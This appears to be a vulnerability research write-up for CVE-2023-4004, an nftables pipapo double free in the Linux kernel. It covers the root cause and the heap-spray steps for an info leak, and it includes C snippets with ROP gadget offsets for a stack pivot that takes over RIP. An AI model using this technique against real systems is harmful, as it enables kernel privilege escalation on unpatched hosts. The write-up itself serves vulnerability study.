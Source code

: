 # Exploit detail about CVE-2023-4004
If you want to get some base information about CVE-2023-4004, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Cause anaylysis

As the code shows in function `nft_pipapo_remove` in /net/netfilter/nft_set_pipapo.c, when a pipapo set wants to remove a element, it find the element by using NFT_SET_EXT_KEY and NFT_SET_EXT_KEY_END:

```
    ...
        match_start = data;
		match_end = (const u8 *)nft_set_ext_key_end(&e->ext)->data;

		start = first_rule;
		rules_fx = rules_f0;

		nft_pipapo_for_each_field(f, i, m) {
			if (!pipapo_match_field(f, start, rules_fx,
						match_start, match_end))
				break;
    ...
```

But a NFT_SET_EXT_KEY_END is not necessary. Function `nft_pipapo_insert` shows a correct way to handle it:

```
    ...
	if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END))
		end = (const u8 *)nft_set_ext_key_end(ext)->data;
	else
		end = start;
    ...
```


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set
- Insert a element into the set without NFT_SET_EXT_KEY_END
- Flush the set without NFT_SET_EXT_KEY_END(After this, the element will be freed but won't be removed from the set)
- Flush the set without NFT_SET_EXT_KEY_END again(After this, the element will be freed again)

## Exploit it
CVE-2023-4004 is very easy to exploit because you can free the element many times. The size of the element is not stable which means there's many ways to exploit it:
```
void *nft_set_elem_init(const struct nft_set *set,
			const struct nft_set_ext_tmpl *tmpl,
			const u32 *key, const u32 *key_end,
			const u32 *data, u64 timeout, u64 expiration, gfp_t gfp)
{
	struct nft_set_ext *ext;
	void *elem;

	elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
	if (elem == NULL)
		return NULL;
    ...
```
The tmpl->len is related to your input like NFTA_SET_ELEM_USERDATA which means you can control the size of the element. So you just need to find a structure to leak information and control RIP. I choose to use some structures in nftables: `nft_tables` and `nft_object`
```
struct nft_table {
	struct list_head		list;
	struct rhltable			chains_ht;
	struct list_head		chains;
	struct list_head		sets;
	struct list_head		objects;
	struct list_head		flowtables;
	u64				hgenerator;
	u64				handle;
	u32				use;
	u16				family:6,
					flags:8,
					genmask:2;
	u32				nlpid;
	char				*name;
	u16				udlen;
	u8				*udata;
};

struct nft_object {
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_object_hash_key	key;
	u32				genmask:2,
					use:30;
	u64				handle;
	u16				udlen;
	u8				*udata;
	/* runtime data below here */
	const struct nft_object_ops	*ops ____cacheline_aligned;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```
It's easy to spray heap by creating many nft_table with NFTA_TABLE_USERDATA:
```
    ...
	if (nla[NFTA_TABLE_USERDATA]) {
		table->udata = nla_memdup(nla[NFTA_TABLE_USERDATA], GFP_KERNEL);
		if (table->udata == NULL)
			goto err_table_udata;

		table->udlen = nla_len(nla[NFTA_TABLE_USERDATA]);
	}
    ...
```
And nft_object has a pointer of a function list(`const struct nft_object_ops	*ops`), which will be useful for leaking information and control RIP. 

The size of the object is different when you use different type of object. I choose to use the `NFT_OBJECT_CT_EXPECT` object. The heap used by this object belongs to kmalloc-192.
### Leak info

I leak some useful infomation by the following steps.

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END(make sure sizeof(`element B`)>192 && sizeof(`element B`)<256)
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`) 
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects, the size of the objects should equal to sizeof(`element B`). One of them will get the heap of `element B` back.
- Dump/Get all the tables we spray. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object. 

### Control RIP
I control the RIP by the following steps which is very similar I used for leaking useful information:

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END(make sure sizeof(`element B`)>192 && sizeof(`element B`)<256)
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`)
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects with `NFTA_OBJ_USERDATA`. The size of the objects should equal to sizeof(`element B`) . `NFTA_OBJ_USERDATA` of the object will be used for ROP.
- Dump/Get all the tables we spray. Find the target tables. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object.
- Delete the target table to free the heap of the object.
- Spray many tables with NFTA_TABLE_USERDATA to get the heap of the object back. After this, we will fill fake data of the object. I overwrite object->ops to control RIP.
- Get target object, and we will finally jump to ROP.
  ```
  static int nft_object_dump(struct sk_buff *skb, unsigned int attr,
			   struct nft_object *obj, bool reset){
	struct nlattr *nest;

	nest = nla_nest_start_noflag(skb, attr);
	if (!nest)
		goto nla_put_failure;
	if (obj->ops->dump(skb, obj, reset) < 0)//After overwrite the ops, we can control RIP here.
		goto nla_put_failure;
	nla_nest_end(skb, nest);
	return 0;
	...
  ```
### ROP detail
Once we finish the step 7 of `Control RIP`, we can get the heap address of the `NFTA_OBJ_USERDATA` of target object, which we spray at step 6.
And I fill the fake data of the object by this:
```
    //ops is the pointer of the memory we will fill in NFTA_OBJ_USERDATA
    //the filed at 0x20 of ops is ops->dump.
    *(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]
	...
    //The filed at 0x48 of the leak_obj is obj->udata, which will be created by NFTA_OBJ_USERDATA.
    uint64_t rop_target_addr = *(uint64_t *)(&leak_obj[0x48]);
    printf("rop : %lx\n", rop_target_addr);
    //Now we try to fill fake data of the object
    //stack migration first time 
    *(uint64_t *)(&leak_obj[0x39]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret 
    // stack migration second time 
    *(uint64_t *)(&leak_obj[0]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret
    *(uint64_t *)(&leak_obj[8]) = rop_target_addr + 0x60;//This is the final ROP address.
    *(uint64_t *)(&leak_obj[0x80]) = rop_target_addr;//the filed at 0x80 offset is a nft_object_ops	struct pointer which set to the heap addr of NFTA_OBJ_USERDATA.
	...
```

And the step of ROP looks like this:
```

 obj->ops->dump(skb, obj, reset)  ->  
 push rsi ; jmp qword ptr [rsi + 0x39] ->  //RSI will be the pointer of the object
 pop rsp ; ret -> //stack migration, the rsp will be the pointer of the object 
 pop rsp ; ret -> //stack migration again, the rsp will be rop_target_addr + 0x60(the pointer of the NFTA_OBJ_USERDATA + 0x60) 
 now we can do normal ROP here
```
